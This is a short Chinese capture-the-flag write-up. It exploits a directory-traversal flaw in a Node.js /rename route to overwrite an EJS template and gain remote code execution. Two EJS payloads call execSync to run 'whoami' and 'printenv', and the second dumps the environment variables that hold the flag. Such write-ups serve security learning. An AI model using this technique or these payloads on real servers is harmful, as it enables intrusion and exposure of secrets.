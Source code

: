 

这个路由会将uploads目录中的文件重命名

我们可以利用这个路由，通过目录穿越对任意文件进行移动和重命名

也就是说我们可以通过上传恶意的ejs到uploads目录，接着通过/rename路由将我们上传的恶意ejs文件覆写掉/路由的模板文件mortis.ejs实现RCE

eval.ejs

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('whoami') %>
    </div>
</body>
</html>
```

将ejs上传

![image-20250206154845681](./assets/image-20250206154845681.png)

覆写原来的ejs

![image-20250206155252476](./assets/image-20250206155252476.png)

访问/

![image-20250206155341848](./assets/image-20250206155341848.png)

这题flag藏在环境变量里

payload:

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('printenv') %>
    </div>
</body>
</html>
```





![image-20250206155810074](./assets/image-20250206155810074.png)

